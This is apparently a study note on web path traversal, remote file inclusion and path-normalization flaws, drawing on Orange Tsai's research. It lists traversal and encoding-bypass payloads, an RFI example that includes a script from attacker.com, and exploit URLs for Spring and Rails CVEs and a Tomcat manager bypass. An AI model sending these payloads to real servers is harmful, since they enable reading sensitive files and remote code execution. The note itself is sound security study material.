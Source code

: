 # Web Application Architecture:
![image](https://github.com/user-attachments/assets/588af6f9-b2af-4757-9a35-81e58f08b69e)



---

### **1. Path Traversal Vulnerabilities**
Path traversal vulnerabilities allow attackers to access arbitrary files on a server by manipulating file paths in user inputs, such as URL parameters.

#### **Exploitation Techniques**
- **Regular Case**:
  - Relative paths: `../../../../../../etc/passwd` (Unix) or `..\..\..\..\..\..\windows\win.ini` (Windows).
  - Absolute paths: `/etc/passwd`.

- **Non-Recursive Stripping**:
  - Bypassing filters that strip `../` or `..\\` non-recursively:
    - `....//....//....//etc/passwd`
    - `../../../etc/passwd%00` (null byte to terminate path).

- **URL Encoding**:
  - Single encoding: `../` as `%2e%2e%2f`.
  - Double encoding: `../` as `%25%32%65%25%32%65%25%32%66`.
  - Example: `%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64` for `../../../etc/passwd`.

- **Bypass Start of Path Validation**:
  - Prepending valid paths: `/var/www/images/../../../etc/passwd` or `/var/www/html/..//..//..//etc/passwd`.

- **Null Byte for Extension Validation**:
  - Append `%00` to bypass extension checks: `../../../etc/passwd%00.png`.
  - Non-standard encodings:
    - `.` = `%2e`, `%u002e`, `%c0%2e`, `%e0%40%ae`, `%c0ae`.
    - `/` = `%2f`, `%u2215`, `%c0%af`, `%e0%80%af`, `%c0%2f`.
    - `\` = `%5c`, `%u2216`, `%c0%5c`, `%c0%80%5c`.
    - Double URL: `%252e`, `%252f`, `%255c`.

#### **Example**
```
https://insecure-website.com/loadImage?filename=../../../etc/passwd
```
This could allow an attacker to read sensitive files like `/etc/passwd`.

---

### **2. Remote File Inclusion (RFI)**
RFI occurs when an application dynamically includes external files based on user input, allowing attackers to include malicious scripts from remote servers.

#### **Exploitation**
- Example: `include.php?page=http://attacker.com/exploit.php`
  - The application fetches and executes the remote script, potentially leading to **Remote Code Execution (RCE)**.
- Often exploited in applications with poor input validation for file inclusion parameters.

#### **Key Difference from Path Traversal**
- Path traversal targets local files on the server.
- RFI targets external files, enabling attackers to execute arbitrary code hosted remotely.

---

### **3. Parser Logic Flaws and Path Normalization Issues**
Orange Tsai’s presentation highlights how inconsistencies in **path normalization** across web application components (e.g., reverse proxies, Java backends) create vulnerabilities. These issues often lead to path traversal or RCE, especially in multi-layered architectures.

#### **Key Vulnerabilities**
1. **Inconsistent Path Parsing**:
   - Different components (e.g., Nginx, Apache, Tomcat) interpret paths differently:
     - Windows vs. Linux: `file:///etc/passwd?/../../Windows/win.ini` may be treated as a URL on Linux but a UNC path on Windows.
     - Proxies may decode `%2e%2e%2f` before forwarding, while backends fail to re-sanitize.
   - Example: `/..;/` is treated as a directory by some proxies (e.g., Nginx, Apache), bypassing ACLs or context mappings.

2. **Nginx Off-by-Slash**:
   - Misconfigured `alias` directive:
     ```
     location /static {
         alias /home/app/static/;
     }
     ```
     - Request: `http://127.0.0.1/static../settings.py`
     - Result: Nginx appends `../settings.py` to `/home/app/static/`, resolving to `/home/app/settings.py`.

3. **Java Frameworks**:
   - **Spring (CVE-2018-1271)**:
     - Flawed `cleanPath` function allows traversal with double slashes (`/foo//../` → `/foo/`).
     - Exploit: `http://0:8080/spring-rabbit-stock/static/%255c%255c%255c%255c%255c%255c..%255c..%255c..%255c..%255c..%255c..%255c/Windows/win.ini`.
   - **Rails (CVE-2018-3760)**:
     - Sprockets supports `file://` scheme, bypassing absolute path checks.
     - Double encoding (`%252e%252e`) and query string injection (`%3F`) allow RCE via ERB templates:
       ```
       http://127.0.0.1:3000/assets/file:%2f%2f/app/assets/images/%252e%252e/%252e%252e/%252e%252e/etc/passwd
       ```
       ```
       http://127.0.0.1:3000/assets/file:%2f%2f/app/assets/images/%252e%252e/%252e%252e/%252e%252e/tmp/evil.erb%3ftype=text/plain
       ```

4. **Reverse Proxy Issues**:
   - **Apache mod_jk, mod_proxy, Nginx ProxyPass**:
     - These components often fail to normalize paths consistently with the backend, allowing traversal sequences like `/..;/` to bypass restrictions.
     - Example: `http://example.com/portal/..;/manager/html` accesses the Tomcat management console by exploiting proxy-backend mismatches.

5. **Case Studies**:
   - **Uber**: Bypassed SSO whitelist with `/status/..;/secure/Dashboard.jspa`.
   - **Bynder**: RCE via `/..;/railo-context/admin/web.cfm` and log injection.
   - **Amazon**: RCE on Nuxeo by chaining path normalization bugs, Seam Framework EL injection, and blacklist bypass.

#### **Why These Architectures Are Vulnerable**
- **Reverse Proxy + Java Backend**:
  - Proxies (Apache mod_jk, mod_proxy, Nginx ProxyPass) may forward unnormalized or partially normalized paths to Java backends (e.g., Tomcat, Jetty).
  - Java backends often trust proxies to sanitize inputs, leading to vulnerabilities when proxies misinterpret paths like `/..;/` or double-encoded sequences.
- **Parser Inconsistencies**:
  - Proxies and backends handle URL parameters, encodings, and separators differently, creating exploitable gaps.
  - Example: Tomcat strips `;foo` from `/login;foo/bar`, while proxies may pass it unchanged.
- **Default Configurations**:
  - Default settings prioritize compatibility, leaving weak sanitization or no checks for edge cases like `%00` or UTF-8 encodings.

---



